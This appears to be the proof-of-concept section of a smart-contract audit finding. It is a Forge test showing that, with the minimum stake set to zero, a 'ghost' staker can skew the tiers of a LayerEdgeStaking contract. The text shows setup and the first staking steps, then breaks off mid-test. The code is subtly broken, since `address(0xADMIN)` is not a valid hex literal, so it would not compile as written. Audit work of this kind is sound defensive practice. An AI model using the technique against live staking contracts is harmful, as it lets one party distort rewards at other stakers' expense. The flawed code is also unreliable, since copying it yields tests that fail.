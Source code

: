 ### Proof of Concept (PoC)

The following Forge test case demonstrates the vulnerability. It uses `WETH9` as the staking token for ease of testing native ETH deposits indirectly.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import {LayerEdgeStaking} from "../src/LayerEdgeStaking.sol";
import {WETH9} from "./WETH9.sol"; // Assumes WETH9.sol is in the test directory or accessible path

interface IERC20 {
    function approve(address spender, uint256 amount) external returns (bool);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

contract LayerEdgeStakingTest_GhostStaker_TierSkew is Test {
    LayerEdgeStaking public stakingContract;
    WETH9 public weth;

    address public admin = address(0xADMIN);
    address public stakerGhost = address(0xA); // Our "ghost" staker
    address public stakerLegit = address(0xB); // Our legitimate staker

    uint256 constant GHOST_STAKE_AMOUNT = 100 ether;
    uint256 constant LEGIT_STAKE_AMOUNT = 5000 ether;

    function setUp() public {
        vm.startPrank(admin);
        weth = new WETH9();
        stakingContract = new LayerEdgeStaking();
        stakingContract.initialize(address(weth), admin);
        vm.stopPrank();

        // Provide funds to stakers
        vm.deal(stakerGhost, 10 * GHOST_STAKE_AMOUNT); // Give stakerGhost enough for multiple tests if needed
        vm.deal(stakerLegit, 10 * LEGIT_STAKE_AMOUNT); // Give stakerLegit enough

        // Stakers deposit ETH to get WETH
        vm.prank(stakerGhost);
        weth.deposit{value: GHOST_STAKE_AMOUNT}();

        vm.prank(stakerLegit);
        weth.deposit{value: LEGIT_STAKE_AMOUNT}();
    }

    function test_GhostStaker_Exploits_ZeroMinStake_To_SkewTiers() public {
        // 1. Admin sets minStakeAmount to 0
        vm.startPrank(admin);
        stakingContract.setMinStakeAmount(0);
        vm.stopPrank();
        assertEq(stakingContract.minStakeAmount(), 0, "Admin failed to set minStakeAmount to 0");

        // 2. stakerGhost stakes an initial amount
        vm.startPrank(stakerGhost);
        IERC20(address(weth)).approve(address(stakingContract), GHOST_STAKE_AMOUNT);
        stakingContract.stake(GHOST_STAKE_AMOUNT);
        vm.stopPrank();

```